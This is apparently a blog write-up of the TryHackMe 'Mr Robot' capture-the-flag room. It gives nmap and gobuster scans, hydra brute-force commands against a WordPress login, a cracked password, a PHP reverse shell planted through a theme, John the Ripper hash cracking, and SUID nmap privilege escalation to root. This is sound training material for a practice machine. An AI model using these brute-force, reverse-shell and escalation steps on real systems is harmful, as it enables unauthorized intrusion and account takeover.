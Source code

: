 ```yaml
---
layout: post
title: Box - Mr Robot CTF
published: true
---
```


Based on the Mr. Robot show, can you root this box?

[https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

![](/assets/mrrobot01.jpg)

* * *

## Hack the Machine

##   Nmap Scans

- Discover open ports with ``nmap -Pn -sS -T5 10.10.122.32 -p- -vvv``
- We find ports 22,80,443
- Port 22/tcp  closed ssh      reset ttl 61

> Port 80/tcp  open   http     syn-ack ttl 61 Apache httpd
> http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
> http-title: Site doesn't have a title (text/html).
> http-methods: 
> Supported Methods: GET HEAD POST OPTIONS
> http-server-header: Apache

##  What is key 1?

- ``gobuster dir -u http://10.10.122.32/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php -t 100``
- Robots.txt

##  What is key 2?

- ``/wp-login.php`` we can brute force using the fsocity.dic found in robots.txt
- using foxyproxy and burpsuite we can capture what we need to generate our hydra code
- ``hydra -L fsocity.dic -p password 10.10.122.32 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"``
- We find username Elliot
- ``hydra -l Elliot -P fsocity.dic 10.10.122.32 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The Password you entered for the username"``
- eventually you will get the password ``ER28-0652``
- open up netcat listener and change the theme to php reverse shell
- upgrade shell ``python -c 'import pty; pty.spawn("/bin/bash")'``

![](/assets/mrrobot02.png)

- John the ripper the raw-md5 hash in robot dir in order to su to robot ``john password.raw-md5 --wordlist=fsocity.dic --format=Raw-MD5``

![](/assets/mrrobot03.png)

##   Linpeas.sh - PrivESC Vectors

- **SUID** - /usr/local/bin/nmap - [GTFO BINS](https://gtfobins.github.io/gtfobins/nmap/#suid)

- ``nmap --interactive``

```shell
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !sh
!sh
# whoami
whoami
root
```

##  What is key 3?

![](/assets/mrrobot04.png)

* * * 